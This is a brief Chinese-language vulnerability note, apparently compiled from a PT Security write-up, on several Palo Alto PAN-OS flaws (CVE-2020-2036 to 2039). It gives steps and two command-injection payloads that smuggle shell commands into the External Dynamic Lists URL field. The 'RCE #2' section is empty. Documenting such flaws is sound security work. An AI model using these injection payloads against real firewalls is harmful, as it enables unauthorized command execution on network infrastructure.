

# Palo Alto PAN-OS 防火墙多个漏洞

* 任意命令执行 CVE-2020-2037和CVE-2020-2038
* DOS — CVE-2020-2039
* 反射跨站点脚本（XSS）— CVE-2020-2036

**RCE #1**

登录web管理，在“Objects”选项卡上，转到“External Dynamic Lists”，点击新增源，输入Payload：

```
http://myhost/?result='`id`'
http://myServer/'`sleep 5`'
```

**RCE #2**




DOS/XSS:https://swarm.ptsecurity.com/swarm-of-palo-alto-pan-os-vulnerabilities/

from:https://swarm.ptsecurity.com/swarm-of-palo-alto-pan-os-vulnerabilities/